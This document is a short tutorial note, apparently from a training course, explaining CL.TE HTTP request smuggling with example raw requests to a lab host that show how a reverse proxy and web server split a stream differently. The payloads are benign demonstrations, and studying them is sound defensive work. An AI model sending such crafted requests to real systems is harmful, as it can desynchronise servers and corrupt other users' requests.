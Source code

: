 ## CL.TE
- If a request contains both the CL and TE headers, the reverse proxy will (incorrectly) use the CL header to determine the request length, while the web server will (correctly) use the TE header to determine the request length. 
- As such, this type of HTTP request smuggling vulnerability is called CL.TE vulnerability.

- Example, consider a request like the following:
```http
POST / HTTP/1.1
Host: clte.htb
Content-Length: 10
Transfer-Encoding: chunked

0

HELLO
```
- Now let's look at the complete TCP stream containing both these subsequent requests:
```http
POST / HTTP/1.1
Host: clte.htb
Content-Length: 10
Transfer-Encoding: chunked

0

HELLOGET / HTTP/1.1
Host: clte.htb
```
- According to the reverse proxy, the TCP stream should be split at the point where the word 'HELLO' appears.
```http
POST / HTTP/1.1
Host: clte.htb
Content-Length: 10
Transfer-Encoding: chunked

0

HELLO
```
```http
GET / HTTP/1.1
Host: clte.htb
```
- We can see that the first request's body ends after HELLO and the subsequent request starts with the GET keyword. Now let's look at it from the perspective of the web server:
```http
POST / HTTP/1.1
Host: clte.htb
Content-Length: 10
Transfer-Encoding: chunked

0
```
```http
HELLOGET / HTTP/1.1
Host: clte.htb
```
- Since the web server thinks the first request ends after the bytes `0\r\n\r\n`, the bytes HELLO are prepended to the subsequent request such that the request method was changed from GET to HELLOGET. 
- Since that is an invalid HTTP method, the web server will most likely respond with an `HTTP 405 - Method not allowed` error message even though the second request by itself uses a valid HTTP method.

